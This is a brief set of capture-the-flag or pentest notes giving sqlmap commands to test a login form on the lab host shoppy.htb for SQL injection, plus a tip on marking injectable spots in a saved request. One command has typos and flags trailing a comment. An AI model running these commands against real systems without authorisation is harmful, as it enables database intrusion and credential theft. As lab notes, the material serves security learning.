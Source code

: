 ```
sqlmap -r REQUEST_FILE
sqlmap -u "http://shoppy.htb/login" --data "username=admin&password=admin" --risk 3 --level 5 -f --banner --ignore-code 401 --dbms='SQL_TYPE'
```

you can add * to tell sqlmap that this place is injectable in the file request 
```
sqlmap -r REQUEST_FILE --force ssl # FOR HTTPS --rist 3 --level 5 --batch
```